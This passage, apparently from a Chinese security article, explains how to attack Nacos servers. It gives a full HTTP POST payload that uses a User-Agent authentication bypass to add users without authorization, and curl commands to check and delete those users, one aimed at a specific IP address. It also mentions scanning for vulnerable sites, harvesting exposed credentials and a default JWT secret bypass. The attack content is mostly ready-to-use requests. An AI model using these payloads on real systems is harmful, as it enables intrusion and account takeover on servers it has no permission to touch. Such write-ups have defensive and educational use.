 可以看下里面的账号密码，很多情况下账号密码都是这个暴露出来的username，和password信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaA9yJbOx2mwfib11UT7ZPsJbRxlsx41qOm155icZibHN6yVCfgKLI2VB2Q/640?wx_fmt=jpeg&from=appmsg "")  
  
未授权添加用户  
  
payload:  
  
POST /nacos/v1/auth/users HTTP/1.1  
Host:   
User-Agent: Nacos-Server  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT  
Priority: u=0, i  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
  
username=test&password=test123  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaKHIdibthRkQwHic6jbXLrxEPHGupewVYZyBk533sE9dU6qGwMbFdiamSw/640?wx_fmt=jpeg&from=appmsg "")  
  
查看用户是否添加成功:  
  
/nacos/v1/auth/search?username=test  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia51fbdmibia0TfYiaVrdHafNm4EKroNib2DzoHJ78RIdicicf0MpPn3V1nFqg/640?wx_fmt=jpeg&from=appmsg "")  
  
curl 'http://IP/v1/auth/search?username=test'  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMIHn9rCNdEqIiaibP1I6iarKR7mnkTT7eS0FPgs4NXaLPfZLpicAqho9JQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiapLXfA7XTfTUQE6UDDo7GbXDYJccE2bknnFNicJdXKib4oHrbvQOV8b2A/640?wx_fmt=jpeg&from=appmsg "")  
  
删除用户  
curl -X DELETE "http://47.83.174.204:8848/nacos/v1/auth/users?username=test"  
  
或者访问 /nacos/v1/auth/users?username=test，将请求方法修改为DELETE即可删除用户test  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia2j2hYLqGcd3rWVqRHpicQ5LNwKiaEPQ2xYBiaQTkWL0gvCiab8zPl0OwkQ/640?wx_fmt=jpeg&from=appmsg "")  
  
或者使用工具直接进行用户的添加  
  
先将有漏洞的站点扫描一遍选择ua权限绕过漏洞进行添加  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaxJAvibqW2vaABZhOXRB49mycibd0FWrfEc6bCic0bYcmibSFADLd4cgvkw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaPz96QcupPQT0gHL9AKLQiaepyoQmkagfib2yWTDpshgFja26oAURf4XA/640?wx_fmt=jpeg&from=appmsg "")  
### 5.默认jwt密钥-未授权访问  
  
开启了nacos.core.auth.enabled 的情况下，如果未修改默认nacos.core.auth.default.token.secret.key的值（在Nacos<=2.2.0版本中，该值为默认值），则可以通过accessToken值来绕过权限。  
  